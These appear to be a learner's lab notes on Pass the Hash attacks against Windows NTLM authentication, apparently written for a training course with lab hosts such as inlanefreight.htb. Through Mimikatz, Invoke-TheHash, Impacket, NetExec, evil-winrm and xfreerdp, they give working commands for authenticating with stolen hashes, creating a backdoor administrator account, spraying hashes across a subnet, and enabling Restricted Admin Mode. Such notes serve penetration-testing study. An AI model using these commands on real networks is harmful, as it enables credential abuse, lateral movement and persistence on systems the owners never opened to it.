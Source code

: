 - A [Pass the Hash (PtH)](https://attack.mitre.org/techniques/T1550/002/) attack is a technique **==where an attacker uses a password hash instead of the plain text password for authentication.==** 
- Let's assume we obtain the password hash (`64F12CDDAA88057E06A81B54E73B949B`) for the account `julio` from the domain `inlanefreight.htb`. Let's see how we can perform Pass the Hash attacks from Windows and Linux machines.

# Introduction to Windows NTLM
---
- Microsoft's [Windows New Technology LAN Manager (NTLM)](https://learn.microsoft.com/en-us/windows-server/security/kerberos/ntlm-overview) is a **set of security protocols that authenticates users' identities** while also protecting the integrity and confidentiality of their data. 
- **==NTLM is a single sign-on (SSO) solution that uses a challenge-response protocol to verify the user's identity without having them provide a password.==**
- With NTLM, passwords stored on the server and domain controller are not "salted," which means that an adversary with a password hash can authenticate a session without knowing the original password.
- We call this a `Pass the Hash (PtH) Attack`.

# Pass the Hash with Mimikatz (Windows)
---
- Mimikatz has a module named **==`sekurlsa::pth`==** that allows us to perform a **Pass the Hash attack by starting a process using the hash** of the user's password. 
- To use this module, we will need the following:
	- `/user` - The user name we want to impersonate.
	- `/rc4` or `/NTLM` - NTLM hash of the user's password.
	- `/domain` - Domain the user to impersonate belongs to. In the case of a **local user account, we can use the computer name, localhost, or a dot (.).**
	- `/run` - The program we want to run with the user's context (if not specified, it will launch cmd.exe).

- Pass the Hash from Windows Using Mimikatz:
	- `mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit`

# Pass the Hash with PowerShell Invoke-TheHash (Windows)
---
- Another tool we can use to perform **Pass the Hash attacks on Windows is [Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash).**
- This tool is a collection of **PowerShell functions for performing Pass the Hash** attacks with WMI and SMB.
- Local administrator privileges are not required client-side, **==but the user and hash we use to authenticate need to have administrative rights==** on the target computer.
- When using `Invoke-TheHash`, we have two options: **SMB or WMI command** execution. To use this tool, we need to specify the following parameters to execute commands in the target computer:
	- `Target` - Hostname or IP address of the target.
	- `Username` - Username to use for authentication.
	- `Domain` - Domain to use for authentication. This **parameter is unnecessary with local accounts** or when using the @domain after the username.
	- `Hash` - NTLM password hash for authentication. This function will accept either LM:NTLM or NTLM format.
	- `Command` - Command to execute on the target. If a command is not specified, the function will check to see if the username and hash have access to WMI on the target.

- Invoke-TheHash with SMB:
	- `powershell -ep bypass`
	- `Import-Module .\Invoke-TheHash.psd1`
	- `Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose`
- Instead of providing the IP address, which is `172.16.1.10`, **we can use the machine name `DC01`** (either would work).
- We can **also get a reverse shell connection in the target machine.**:
	- ```
```
Invoke-SMBExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "RevShell_com_PowerShell3_B64_Encoded"
```

# Pass the Hash with Impacket (Linux)
---
- We will perform command execution on the target machine using `PsExec`.
-  Pass the Hash with Impacket PsExec:
	- `impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453`

# Pass the Hash with NetExec (Linux)
---
- We can use NetExec to try to authenticate to some or **==all hosts in a network looking for one host where we can authenticate successfully as a local admin==**

- Pass the Hash with NetExec:
	- `netexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453`
- If we want to perform the same actions but attempt to authenticate to each host in a subnet using the **==local administrator password hash, we could add `--local-auth` to our command.==** 
- This method is helpful if we obtain a local administrator hash by ==**dumping the** **local SAM database**== on one host and want to **check how many (if any)** other hosts we can access due to ==**local admin password re-use.**==
- If we see `Pwn3d!`, it means that the user is a local administrator on the target computer.

- NetExec - Command Execution:
	- `netexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami`

# Pass the Hash with evil-winrm (Linux)
---
- [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) is another tool we can use to **authenticate using the Pass the Hash attack with PowerShell remoting.**
- If **==SMB is blocked or we don't have administrative rights==**, we can use this **alternative protocol** to connect to the target machine.

- Pass the Hash with evil-winrm:
	- `evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453`
- **Note:** When using a domain account, we need to include the domain name, for example: administrator@inlanefreight.htb


# Pass the Hash with RDP (Linux)
---
- There are a few caveats to this attack:
	- `Restricted Admin Mode`, which is disabled by default, should be **enabled on the target host; otherwise, you will be presented with the following error:**
		- ![[Pasted image 20250703055355.png]]
- **==Enable Restricted Admin Mode to allow PtH:==**
	- `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`

- Pass the Hash using RDP:
	- `xfreerdp3  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B`

# UAC limits Pass the Hash for local accounts
---
- UAC (User Account Control) **limits local users' ability to perform remote administration operations.**
- When the registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` is set to 0,
	- It means that the **built-in local admin account (RID-500, "Administrator") is the only local account allowed to perform remote administration tasks.** Setting it to 1 allows the other local admins as well.
- These settings are **ONLY for local administrative accounts**. If we get access to a **==domain account with administrative rights on a computer, we can still use Pass the Hash with that computer.==**